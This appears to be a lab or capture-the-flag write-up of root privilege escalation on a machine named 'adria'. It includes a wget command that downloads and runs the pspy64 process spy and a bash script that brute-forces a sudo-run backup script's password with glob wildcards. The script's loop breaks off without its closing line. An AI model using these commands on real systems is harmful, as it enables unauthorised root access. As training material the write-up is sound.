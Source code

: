 # 05. User root
## First way
### 1. Terminal
```bash
wget "https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64" && chmod +x pspy64 && ./pspy64
# 2024/03/02 15:16:54 CMD: UID=0    PID=1577   | /bin/bash /opt/backup 
# 2024/03/02 15:16:54 CMD: UID=0    PID=1579   | /usr/bin/sleep 1 
# 2024/03/02 15:16:55 CMD: UID=0    PID=1580   | /usr/bin/zip -r -e -P ****** /opt/backup.zip /var/www/html 
# 2024/03/02 15:17:01 CMD: UID=0    PID=1582   | /usr/sbin/CRON -f 
# 2024/03/02 15:17:01 CMD: UID=0    PID=1581   | /usr/sbin/CRON -f 
```
### 2. Terminal
```bash
adriana@adria:~$ sudo -l
# Matching Defaults entries for adriana on adria:
#    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

#User adriana may run the following commands on adria:
#    (ALL : ALL) NOPASSWD: /opt/backup
```bash
adriana@adria:~$ sudo /opt/backup
Password: *
#Authorized access
#  adding: var/www/html/ (stored 0%)
#  adding: var/www/html/uploads/ (stored 0%)
# ...
```
## Second way 
In this way You don't need **pspy64**. This way inspired me by [Urkel Grue](https://urk.btw.so/adria_hmv). Use just script.
{: .text-justify}
```bash
#!/bin/bash
#Bash Blind Injection (bbi.sh)
#Kerszi 02.03.2024

digits=({0..9})
alpha=({A..Z} {a..z})
all_num=({0..9} {A..Z} {a..z})
all_chars=({0..9} {A..Z} {a..z} _ -)

counter=0
prefix=""
while true; do
i=${all_num[$counter]}
    sudo /opt/backup <<< $prefix$i* &>/dev/null
    if [[ $? == 0 ]]; then
        prefix+="$i"
        counter=0
        sudo /opt/backup <<< $prefix &>/dev/null
        if [[ $? == 0 ]]; then
            printf "\rPassword: $prefix  ";
            echo
            exit
        fi
    fi
printf "\rPassword: $prefix$i*";
```